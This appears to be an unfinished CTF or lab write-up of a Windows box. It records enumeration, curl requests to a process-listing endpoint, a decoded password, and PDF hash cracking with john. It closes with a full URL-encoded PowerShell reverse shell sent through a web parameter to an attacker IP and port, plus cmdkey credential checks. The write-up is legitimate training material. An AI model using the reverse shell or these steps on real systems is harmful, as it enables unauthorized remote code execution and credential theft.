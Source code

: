 #InProgress 
```IP
192.168.242.99
```
# Enumeration
## FTP
FileZilla Server 0.9.60 beta
brute not working
## SMB
guest and blank not working
## RPC
blank nothing
## SNMP
snmpwalk nothing
## HTTP 80
doesnt work apparently

## HTTP 8089
ffuf big.txt nothing

## HTTP 33333
ffuf big.txt nothing
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241209164529.png?raw=true)

# Exploitation

http 8089 request/response
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241209165628.png?raw=true)

IP harcoded. Lets try the same request with target IP
```
curl -i 192.168.164.99:33333/list-running-procs -v
```
```
curl -i 192.168.164.99:33333/list-running-procs -v -X POST
```
```
curl -i 192.168.164.99:33333/list-running-procs -v -X POST -H 'Content-Length: 0'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210094000.png?raw=true)

```
echo 'Tm93aXNlU2xvb3BUaGVvcnkxMzkK' | base64 -d
```
```
NowiseSloopTheory139
```
```
ariah
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210094421.png?raw=true)
# PrivEsc

## Manual
C:\Users\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml
cmdkey /list
%SystemRoot%\system32\shell32.dll

we see a ftp directory in / so we get via FTP
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210101346.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210101359.png?raw=true)
```
pdf2john Infrastructure.pdf > pdf.hash
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt pdf.hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210101956.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210101942.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210103111.png?raw=true)
We now execute a reverse shell:
```
http://192.168.164.99/?$LHOST%20=%20%22192.168.45.189%22;%20$LPORT%20=%209001;%20$TCPClient%20=%20New-Object%20Net.Sockets.TCPClient($LHOST,%20$LPORT);%20$NetworkStream%20=%20$TCPClient.GetStream();%20$StreamReader%20=%20New-Object%20IO.StreamReader($NetworkStream);%20$StreamWriter%20=%20New-Object%20IO.StreamWriter($NetworkStream);%20$StreamWriter.AutoFlush%20=%20$true;%20$Buffer%20=%20New-Object%20System.Byte[]%201024;%20while%20($TCPClient.Connected)%20{%20while%20($NetworkStream.DataAvailable)%20{%20$RawData%20=%20$NetworkStream.Read($Buffer,%200,%20$Buffer.Length);%20$Code%20=%20([text.encoding]::UTF8).GetString($Buffer,%200,%20$RawData%20-1)%20};%20if%20($TCPClient.Connected%20-and%20$Code.Length%20-gt%201)%20{%20$Output%20=%20try%20{%20Invoke-Expression%20($Code)%202%3E&1%20}%20catch%20{%20$_%20};%20$StreamWriter.Write(%22$Output`n%22);%20$Code%20=%20$null%20}%20};%20$TCPClient.Close();%20$NetworkStream.Close();%20$StreamReader.Close();%20$StreamWriter.Close()
```


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210104644.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement
